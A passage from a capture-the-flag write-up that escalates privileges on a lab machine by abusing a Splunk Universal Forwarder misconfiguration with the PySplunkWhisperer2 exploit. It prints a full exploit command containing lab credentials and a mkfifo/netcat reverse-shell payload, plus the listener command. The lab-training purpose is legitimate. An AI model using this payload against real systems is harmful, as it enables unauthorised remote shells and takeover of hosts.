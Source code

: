 Provide required permission to run the script using `chmod`

```bash
$ chmod +x linpeas.sh
```

Execute the script

```bash
$ ./linpeas.sh
```

Executing linpeas, we find something interesting

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/32.png)

Splunk is a software platform to search, analyze and visualize the machine-generated data gathered from the websites, applications, sensors, devices etc. And splunkd is a system process that handles indexing, searching, forwarding.

Searching the internet we can find that we could escalate privilege using [Splunk Universal Forwarder Misconfiguration](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

Again researching more on the vulnerability I came across a github repository with an [exploit](https://github.com/cnotin/SplunkWhisperer2)

The repository contained information about the vulnerability and a python script to exploit the vulnerability.

[PySplunkWhisperer2_remote.py](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)

Download the exploit.

Let's start our netcat listener on desired port and execute the script using the following payload, The payload is modified referencing to the article given [here](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

Payload

```bash
python3 PySplunkWhisperer2_remote.py --lhost YOUR IP --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/vincida;mkfifo /tmp/vincida;cat /tmp/vincida|/bin/sh -i 2>&1|nc YOUR IP 1337>/tmp/vincida"'
```

Execute the `PySplunkWhisperer2_remote.py` with netcat listening on specified port.

```bash
$ nc -nlvp 1337
```
